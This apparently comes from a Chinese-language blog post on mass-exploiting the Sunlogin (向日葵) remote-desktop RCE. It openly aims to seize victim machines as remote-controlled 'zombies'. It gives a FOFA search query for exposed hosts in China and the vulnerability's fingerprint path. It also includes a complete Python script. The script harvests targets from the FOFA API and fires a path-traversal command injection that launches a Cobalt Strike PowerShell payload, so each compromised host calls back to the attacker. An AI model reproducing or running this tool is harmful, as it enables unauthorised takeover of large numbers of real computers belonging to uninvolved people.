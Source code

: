 ## NDAY批量上线

## 向日葵RCE

在实战中 往往不方便直接用自己的主机进行测试

这个时候就需要去抓一些🐔 便于我们一些操作的进行，今天就给各位师傅提供一种方式也算是一种思路

首先不得不说向日葵的用户量还是非常大的，国内外的主机不计其数，rce的漏洞已经爆出快一年多了，但依旧有大量的主机服务器存在该rce 且存在漏洞的主机甚至都没有装杀软 运维人员简直懒到了极点

抓🐔的第一步肯定是先确定🐔的属性 然后抓成功的概率也就高一点

### 定位资产

fofa的语法 

```
body="Verification failure" && country="CN"
```

互联网暴露资产29469台

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402132817799.png)

### 脚本实现

python对接fofa api 进行信息收集自动化

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402140350316.png)

然后是漏洞指纹  进一步确定资产

```
/cgi-bin/rpc?action=verify-haras
```

python实现

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402151020718.png)

通过上面的手法 就已经能够去找到一些存在漏洞的主机了，这也是平时批量刷src的技巧，但我们的目标是上线、远控、肉鸡

因为大多数的向日葵都是win主机所以我们这里这上渗透神器cobaltstrike  Screen

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20231220140210146.png)

生成powershell远控脚本

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402150903308.png)

python实现

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402151243783.png)

然后就到了最关键的一步  依据以上姿势编写整体脚本  在服务器上运行 或者肉鸡上运行 实现键指一动 敌方主机已上线

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402151733538.png)

cs自动上线 睡醒起来看🐔就好啦

![](https://ckcsec.oss-cn-hangzhou.aliyuncs.com/img/image-20230402151930603.png)

### 脚本源码地址

项目地址

https://github.com/ckcsec/xrk-rce

```python
import requests
from requests.packages.urllib3.exceptions import InsecureRequestWarning
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
import base64
def main():
    pn=0
    index=0
    testStr = 'body="Verification failure" && country="CN"'
    b64 = str(base64.b64encode(testStr.encode('utf-8')), 'utf-8')

    pn+=1
    url='https://fofa.info/api/v1/search/all?email=你的邮箱&key=你的key&qbase64={}&size=10000'.format(b64)
    print(url)
    r=requests.get(url=url).json()['results']
    print(r)
    print(len(r))
    for i in r:
        ip=i[0]
        poc(ip)
def poc(ip):
    print(ip)
    url='http://{}/cgi-bin/rpc?action=verify-haras'.format(ip)
    headers={'Host':'{}'.format(ip),
             'Cache-Control':'max-age=0',
             'Upgrade-Insecure-Requests': '1',
             'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
             'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
             'Accept-Encoding': 'gzip, deflate',
             'Accept-Language': 'zh-CN,zh;q=0.9',
             'Connection': 'close'}
    try:
        r=requests.get(url,headers=headers,timeout=5).json()['verify_string']
    except:
        print('超时:',ip)
    else:
        print(r)
        exp(ip, verify_string=r)
def exp(ip,verify_string):
    url = 'http://{}/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+cs生成的powershell'.format(ip)
    headers = {'Host':'{}'.format(ip),
               'Cache-Control':'max-age=0',
               'Upgrade-Insecure-Requests':'1',
               'Cookie':'CID={}'.format(verify_string),
               'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.134 Safari/537.36',
               'Accept':'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
               'Accept-Encoding':'gzip, deflate',
               'Accept-Language':'zh-CN,zh;q=0.9',
               'Connection': 'close'}
    try:
        r=requests.get(url,headers=headers,timeout=2)
    except:
        print('exp超时:',ip)
    else:
        print('succ:',r.text)
        with open('向日葵REC_SUCC1115.txt','a+') as f:
            f.write(ip)
            f.write('\n')
if __name__ == '__main__':
    main()
```
